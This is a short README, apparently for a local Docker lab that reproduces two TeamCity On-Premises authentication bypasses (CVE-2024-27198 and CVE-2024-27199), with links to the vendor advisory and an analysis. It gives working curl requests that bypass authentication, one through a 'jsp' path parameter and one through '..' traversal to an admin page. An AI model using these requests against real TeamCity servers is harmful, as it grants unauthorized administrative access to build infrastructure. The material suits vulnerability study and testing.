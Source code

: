 # TeamCity On-Premises (CVE-2024-27198 and CVE-2024-27199)

> Advisory https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now

> Analysis https://blog.rapid7.com/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/

## Usage

Starup with,

```bash
docker compose up
```

access `http://localhost:8112` and create a admin account.

### CVE-2024-27198

Bypass with `jsp` parameter

```bash
curl -ik http://localhost:8112/hax?jsp=/app/rest/server;.jsp
```

### CVE-2024-2719

Normally, we need authroization to accessing `/admin/diagnostic.jsp`,

```bash
curl -ik --path-as-is http://localhost:8112/admin/diagnostic.jsp
HTTP/1.1 401
TeamCity-Node-Id: MAIN_SERVER
WWW-Authenticate: Basic realm="TeamCity"
WWW-Authenticate: Bearer realm="TeamCity"
Cache-Control: no-store
Content-Type: text/plain;charset=UTF-8
Transfer-Encoding: chunked
Date: Wed, 06 Mar 2024 04:19:52 GMT

Authentication required
To login manually go to "/login.html" page
```

it can be bypass with `..`

```bash
curl -ik --path-as-is http://localhost:8112/res/../admin/diagnostic.jsp
```